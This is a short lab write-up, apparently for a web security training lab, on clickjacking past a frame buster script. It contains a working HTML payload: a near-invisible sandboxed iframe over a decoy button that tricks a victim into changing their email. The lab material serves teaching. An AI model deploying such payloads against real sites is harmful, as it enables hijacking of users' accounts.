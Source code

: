 # 🛡️ Lab: Clickjacking with a frame buster script

## 🎯 Objective
This lab demonstrates how to perform a **clickjacking attack** that bypasses a frame buster and tricks a user into changing their email address.

---

## 🧭 Steps

### 1️⃣ Access the Lab
Log in to your account (`wiener:peter`) and go to `/my-account`.

📸 Screenshot:
![my-account](./1-my-account-page.png)

---

### 2️⃣ Craft and Align the Clickjacking Payload
- Go to the exploit server and paste the following HTML:
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 80px;
        z-index: 1;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a85007404cc435781e9b12500e3000f.web-security-academy.net/my-account?email=clickjacked%40evil.com"></iframe>
```

- Ensure the `"Click me"` button overlaps perfectly with the target button `"Update email"`.
- Use `sandbox="allow-forms"` to bypass the frame buster script.
- Deliver the exploit to the victim.

📸 Screenshot:
![final-payload](./2-final-payload.png)

---

## ✅ Result
If aligned correctly, the lab is solved once the victim unknowingly updates their email.

